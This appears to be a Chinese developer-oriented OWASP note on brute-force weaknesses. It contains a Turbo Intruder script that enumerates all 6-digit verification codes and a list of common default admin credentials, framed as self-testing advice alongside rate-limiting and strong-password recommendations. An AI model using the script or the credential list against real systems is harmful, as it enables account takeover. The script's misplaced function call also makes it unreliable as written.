# OWASP-Top10

!!! warning "警告"
        主要学来给开发用，注意千万别做任何可能存在违法的行为！！！
        道路千万条！！！安全第一条！！！

## 爆破

这是一个很容易犯的错误，一般都需要多次错误锁定之类的操作，或者短时间内只允许一定次数的操作，别让测试人员把server搞down了！！！

下面是开发人员请采纳的自查爆破方式（如有需求，稍微进行修改）

工具采用BurpSuite —— Turbo Intruder

### Py验证码6位

```python
from itertools import product  
  
def brute_veify_code(target, engine, length):  
    pattern = '1234567890'  
    for i in list(product(pattern, repeat=length)):  
        code =  ''.join(i)  
        engine.queue(target.req, code)  
  
def queueRequests(target, wordlists):  
    engine = RequestEngine(endpoint=target.endpoint,  
        concurrentConnections=30,  
        requestsPerConnection=100,  
        pipeline=True  
    )  
brute_veify_code(target, engine, 6)  
  
def handleResponse(req, interesting):  
    # currently available attributes are req.status, req.wordcount, req.length and req.response  
    if 'error' not in req.response:  
        table.add(req)
```

### 通用弱口令

请自行搜索，Top10或者Top100系统账户、管理员初始常用密码！！！开发能不能random困难密码啊～（16位各种特殊字符英文数字那种！）

- **admin/admin123**
- admin/123456
- admin/admin
- admin/
- admin/admin123456
- system/123456
- \*/1

例外，别再使用各种软件、数据库新建时给的默认密码，开发上线时请一定改掉
